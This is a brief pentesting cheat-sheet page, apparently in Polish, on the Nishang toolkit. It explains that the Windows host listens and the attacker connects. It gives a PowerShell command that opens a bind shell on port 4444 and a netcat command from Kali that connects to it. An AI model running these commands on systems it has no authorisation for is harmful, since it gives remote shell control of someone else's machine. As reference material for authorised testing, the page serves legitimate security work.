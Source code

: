 ```yaml
---
layout:
  title:
    visible: false
  description:
    visible: false
  tableOfContents:
    visible: false
  outline:
    visible: false
  pagination:
    visible: false
---
```


# Nishang

{% hint style="info" %}
To stacja z Windowsem nasłuchuje, a atakujący się tam podłącza
{% endhint %}

Win

```
Invoke-PowerShellTcp -Bind -Port 4444
```

Kali

```
nc 10.20.10.4 4444
```
